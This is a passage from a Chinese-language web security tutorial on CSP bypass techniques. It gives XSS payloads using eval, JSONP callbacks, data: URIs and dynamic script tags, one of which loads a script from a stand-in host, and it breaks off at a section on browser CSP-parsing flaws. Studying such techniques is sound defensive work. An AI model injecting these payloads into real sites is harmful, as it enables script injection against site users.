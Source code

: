 **示例代码**：
```javascript
eval("alert('XSS')");
```

### 3.3 JSONP绕过

**技术原理**：如果CSP策略允许加载外部脚本，攻击者可以通过JSONP（JSON with Padding）技术绕过CSP。

**攻击步骤**：
1. 在目标页面中插入JSONP请求。
2. 执行恶意代码。

**示例代码**：
```html
<script src="https://example.com/jsonp?callback=alert('XSS')"></script>
```

### 3.4 数据URI绕过

**技术原理**：如果CSP策略允许`data:` URI，攻击者可以通过数据URI加载和执行恶意代码。

**攻击步骤**：
1. 在目标页面中插入数据URI。
2. 执行恶意代码。

**示例代码**：
```html
<script src="data:text/javascript,alert('XSS')"></script>
```

### 3.5 动态脚本加载绕过

**技术原理**：如果CSP策略允许动态脚本加载，攻击者可以通过动态创建`<script>`标签加载和执行恶意代码。

**攻击步骤**：
1. 在目标页面中动态创建`<script>`标签。
2. 加载和执行恶意代码。

**示例代码**：
```javascript
var script = document.createElement('script');
script.src = 'https://example.com/malicious.js';
document.body.appendChild(script);
```

## 4. CSP策略绕过技术的高级利用技巧

### 4.1 CSP策略解析漏洞利用

**技术原理**：某些浏览器对CSP策略的解析存在漏洞，攻击者可以利用这些漏洞绕过CSP。

**攻击步骤**：
1. 分析目标浏览器的CSP解析漏洞。
2. 构造恶意请求，利用漏洞绕过CSP。
